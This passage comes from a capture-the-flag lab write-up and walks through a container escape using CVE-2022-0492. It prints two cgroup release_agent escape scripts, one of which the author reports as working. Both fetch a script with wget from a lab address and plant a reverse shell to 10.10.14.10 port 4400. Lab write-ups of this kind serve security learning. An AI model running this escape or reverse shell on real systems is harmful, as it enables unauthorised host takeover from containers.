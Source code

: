 After a bit more investigating I come across [this post](https://terenceli.github.io/%E6%8A%80%E6%9C%AF/2022/03/06/cve-2022-0492) about CVE-2022-0492 explaining how we can create new user namespace and cgroup namespace using `unshare -UrmC bash`, and then be able to mount the cgroupfs. 

> _".. in the container we execute unshare to create new user namespace and cgroup namespace. Then we can mount the cgroupfs and write our data to release_agent."_

So lets jump back to the first escape from Blackhat, this time using `unshare` to create new namespaces. 

```bash
# wget http://10.10.14.10/esc.sh
# chmod +x esc.sh
# cat esc.sh
mkdir /tmp/esc
mount -t cgroup -o rdma cgroup /tmp/esc
mkdir /tmp/esc/w
echo 1 > /tmp/esc/w/notify_on_release
pop="$overlay/shell.sh"
echo "bash -i >& /dev/tcp/10.10.14.10/4400 0>&1" > /shell.sh
chmod +x /shell.sh
echo $pop > /tmp/esc/release_agent
sleep 5 && echo 0>/tmp/esc/w/cgroup.procs &

# unshare -UrmC bash
bash esc.sh
```

Nothing happens.. I really don't understand the `$overlay` part, echoing it returns nothing. Investigating this further we find another, very similar, [PoC](https://blog.aquasec.com/threat-alert-container-escape):
![[/assets/images/htb-writeup-carpediem/carpediem23.png]]

With some trial-and-error I got the escape working, for me the issue was my payload - so make sure to test it before incorporating it to a exploit. 
```bash
# unshare -UrmC bash
wget http://10.10.14.10/esc.sh
chmod +x esc.sh


cat esc.sh
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent

echo '#!/bin/sh' > /cmd
echo "/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.10/4400 0>&1'" >> /cmd
chmod a+x /cmd

sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
head /output


bash esc.sh
```
